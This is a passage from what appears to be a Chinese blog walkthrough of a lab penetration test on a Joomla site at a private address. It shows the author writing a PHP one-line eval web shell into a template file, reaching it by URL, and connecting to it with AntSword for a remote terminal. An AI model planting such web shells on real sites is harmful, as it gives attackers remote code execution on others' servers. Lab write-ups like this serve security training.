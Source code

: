 >  
 回到刚才的页面点击new file 在html下创建一个php文件，名字叫做powershell 


<img src="https://img-blog.csdnimg.cn/e0d1f5689e5c445ea345af8d834e3b0d.png" alt="在这里插入图片描述">

>  
 创建成功之后，跳到编辑页面，然后我们输入php一句话，点击左上角绿色的save进行保存 


```
&lt;?php
echo ("密码是powershell") ;
@eval($_ REQUEST [powershell] ) ;
?&gt;

```

<img src="https://img-blog.csdnimg.cn/262970106ba94b74872e08a5e26726e0.png" alt="在这里插入图片描述">

>  
 再次访问http://192.168.233.179/templates/beez3/html/ 发现多了一个powershell.php文件，我们访问一下 


<img src="https://img-blog.csdnimg.cn/533212dcc7a4453297899e314767791a.png" alt="在这里插入图片描述">

>  
 访问webshell，得到我们设置的会先内容，文件上传成功 


```
http://192.168.233.179/templates/beez3/html/powershell.php

```

<img src="https://img-blog.csdnimg.cn/c5f565e9d0d14a63bcde738b69944f93.png" alt="在这里插入图片描述">

### 12.蚁剑管理webshell

>  
 右键添加数据 


<img src="https://img-blog.csdnimg.cn/e5b7b3d195504f818364668214f2029d.png" alt="在这里插入图片描述">

>  
 输入webshell地址和连接密码 


```
http://192.168.233.179/templates/beez3/html/powershell.php
powershell

```

<img src="https://img-blog.csdnimg.cn/fc9951d3c05a48ffaf28b787a8af4a98.png" alt="在这里插入图片描述">

>  
 右键进入虚拟终端 
